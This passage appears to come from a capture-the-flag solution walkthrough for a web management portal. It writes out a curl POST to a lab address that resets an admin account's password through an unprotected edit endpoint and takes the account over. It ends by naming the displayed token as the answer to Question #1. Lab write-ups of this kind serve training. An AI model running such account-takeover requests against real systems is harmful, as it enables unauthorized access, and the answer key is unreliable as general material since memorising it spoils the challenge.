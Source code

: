 12. The `Password` field value is empty. Try building a custom POST with `curl` to update the password and take over the account.

```bash
curl -d 'Username=bgarrison&FirstName=Brandi&LastName=Garrison&Email=bgarrison@merch.codes&Password=tartans&__RequestVerificationToken=CfDJ8KK3DofDyCVJp-m6HSBVePioVh10GttB3CHGsjYcFz3P_ErHhk88oEg0Ju4U63aMQSbo3cAPplNBFT37VD_WxFVxOVJmzdF-0eegoh-8iFxGaC4yYJGRhT6X9TDDmDxYz4J26sbswmgU-6iE2yHyXNs' http://10.7.7.172/Home/EditUser/92764329-4f4c-4267-ace7-7095d39b1873
```

<img src="./img/c19-10.png" />

13. Check the results of the `curl` command. You will see a message indicating a successful update.

<img src="./img/c19-11.png" />

14. Logout of the Management Portal and login with the Admin account you just updated. Notice the token displayed at the top of the page.

<img src="./img/c19-12.png" />

The correct submission for Question #1 is the value of the token displayed in your web browser.
